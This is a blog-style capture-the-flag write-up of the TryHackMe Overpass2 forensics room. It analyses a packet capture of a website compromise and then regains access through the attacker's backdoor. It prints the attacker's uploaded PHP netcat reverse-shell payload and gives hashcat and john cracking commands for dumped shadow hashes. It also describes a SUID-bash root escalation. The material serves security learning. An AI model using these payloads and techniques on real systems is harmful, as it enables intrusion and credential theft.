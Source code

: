```yaml
---
title: Overpass2 Writeup
published: true
---
```

# TryHackMe - Overpass2
___________________________

This room is more a forensics room. The story is that someone has hacked the overpass website and we need to investigate how the attacker got in, what they did, and how we can get back on the box. We'll be using wireshark and some OSINT to figure out how the attacker got on and we'll see if we can't get back on the box. BTW, there is a walkthrough vide of this room by John Hammond, he's an excellent cyber-security resource on youtube so check him out if that's your thing.

## analyse the PCAP

The first section of this room is to analyse the wireshark packet capture file and see what the attacker did. We'll figure out where they uploaded, what they uploaded, and all the commands that the attacker used on the box. The first place to start with the packet capture file is `http POST` requests. Naviagting the file in wireshark and searching for `http`, we can see a `POST` request made to the `/development/` directory. This is a good place to look. If we inspect the request we can also see the reverse shell that got uploaded.
<br>
<br>

```
POST /development/upload.php HTTP/1.1
Host: 192.168.170.159
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.170.159/development/
Content-Type: multipart/form-data; boundary=---------------------------1809049028579987031515260006
Content-Length: 454
Connection: keep-alive
Upgrade-Insecure-Requests: 1

-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="fileToUpload"; filename="payload.php"
Content-Type: application/x-php

<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>

-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="submit"

Upload File
-----------------------------1809049028579987031515260006--
```
<br>
<br>

You can see the php code that gave the attacker the reverse shell. Now that we know the packet where the attacker uploaded his shell, we can simply inspect the packets beneath that until we see some shell commands. Netcat reverse shells transmit in clear text. The first command we see is to stabilize the shell. Once we locate that packet we can get a good overview of what the attacker did by going to analyze -> follow -> tcp stream. This allows us to see exactly what commands the attacker used.
<br>
<br>

![](assets/images/overpass2/overpass2_tcpfollow.png)
<br>
<br>

The attacker grabbed the user `james` password and switched to that user. From there, they dumped the `/etc/shadow` file. The room would like for us to take the shadow file and see how many of the passwords are crackable with the `fasttrack.txt` wordlist. You can use `hashcat` or `john` for this. If you use `john`, this is what I used:
<br>
<br>

`sudo john hashes.txt --wordlist=/usr/share/wordlists/fasttrack.txt`
<br>
<br>

The last part of this analysis is the program that the attacker used to install a backdoor on the machine. We can see that they cloned a git repo named `ssh-backdoor`. The next section is all about figuring out what the backdoor does.

## analysis of the backdoor  

Going to the git repo with the backdoor script [here](https://github.com/NinjaJc01/ssh-backdoor), we see only a couple of scripts, but the main one is, aptly named `main.go`. We can see that there's a default hash and a hardcoded salt involved in the code, but the attacker actually used their own hash. We can investigate the PCAP file again to see what the attacker used as their hash. So, with the hash and the salt, we can construct a hash that can be cracked. For this one, I used hashcat. The basic construction of the hash is `hash:salt`. I saved the hash in a file named `attacker_hash`, and the command I used is:
<br>
<br>

`hashcat -m 1710 attacker_hash.txt /usr/share/wordlists/rockyou.txt`
<br>
<br>

## back to the machine

Once we get that password cracked, we can connect to the victim machine through the backdoor the attacker installed. Once on the machine, we can grab the user flag with ease.
<br>
<br>

![](assets/images/overpass2/overpass2_user.png)
<br>
<br>

## root escalation

The escalation here is easy. The attacker left a quick way to escalate. After trying to run `sudo -l` with `james` password and failing, I took a look at the files in the home folder for `james` and saw a `.suid_bash` file owned by root. We can run this file with the `-p` argument to keep the permissions of the file owner and that allows us to get a shell as root.
<br>
<br>

![](assets/images/overpass2/overpass2_setuid.png)
<br>
<br>

![](assets/images/overpass2/overpass2_root.png)
<br>
<br>

From there root is only a `cat` command away. This was a great box that gave me a chance to refresh myself on wireshark and researching some code. Thanks for reading if you've gotten this far, and a special thanks to the creator of this box!
<br>
<br>
